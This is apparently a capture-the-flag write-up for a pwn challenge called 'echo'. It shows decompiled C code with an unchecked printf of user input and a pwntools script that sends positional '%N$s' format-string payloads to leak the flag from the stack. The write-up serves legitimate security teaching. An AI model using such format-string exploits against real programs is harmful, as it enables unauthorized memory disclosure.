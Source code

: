 # echo (pwn)  

![image](https://github.com/AndreQuimper/Writeups/assets/96965806/086428c4-c5a7-4578-ba13-e1762a2ce4a2)  

Let's run the program  
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/5eadebea-08a6-40aa-b445-0500a5d3e21e)  

Again, we see mentions of format strings, so let's test for a format string vulnerability.  
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/9cd0e449-3cb7-4947-b211-b76190208377)  

Let's look at the program in Ghidra  

```c
void main(undefined4 param_1,undefined4 param_2)

{
  __gid_t __rgid;
  FILE *__stream;
  int in_GS_OFFSET;
  char local_94 [64];
  char local_54 [64];
  undefined4 local_14;
  undefined *puStack_c;
  
  puStack_c = (undefined *)&param_1;
  local_14 = *(undefined4 *)(in_GS_OFFSET + 0x14);
  setvbuf(stdout,(char *)0x0,2,0);
  __rgid = getegid();
  setresgid(__rgid,__rgid,__rgid);
  memset(local_94,0,0x40);
  memset(local_94,0,0x40);
  puts("Time to learn about Format Strings!");
  puts("We will evaluate any format string you give us with printf().");
  puts("See if you can get the flag!");
  __stream = fopen("flag.txt","r");
  if (__stream == (FILE *)0x0) {
    puts(
        "Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server."
        );
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  fgets(local_54,0x40,__stream);
  do {
    printf("> ");
    fgets(local_94,0x40,stdin);
    printf(local_94);
  } while( true );
}
```
We can see that not only is there a format string vulnerability, the flag is also read into the stack.  
Since we can read the stack with the format string vuln, we can read the flag from the stack.  

## Exploitation
We could carefully examine memory to see where the flag is stored and then read specifically there...  
Or we could be lazy and read every valid string from the stack :D  

```python
from pwn import *

context.log_level = 'error'
i = 1
while(True):
    io = process('./echo')
    payload = b'%' + bytes(str(i),'ascii') + b'$s'
    io.clean()
    io.sendline(payload)
    try:
        r = io.recvline()
        print(r)
    except:
        pass
    i += 1
```

![image](https://github.com/AndreQuimper/Writeups/assets/96965806/299d67c2-ab44-424f-832d-fef33fa6e5d4)
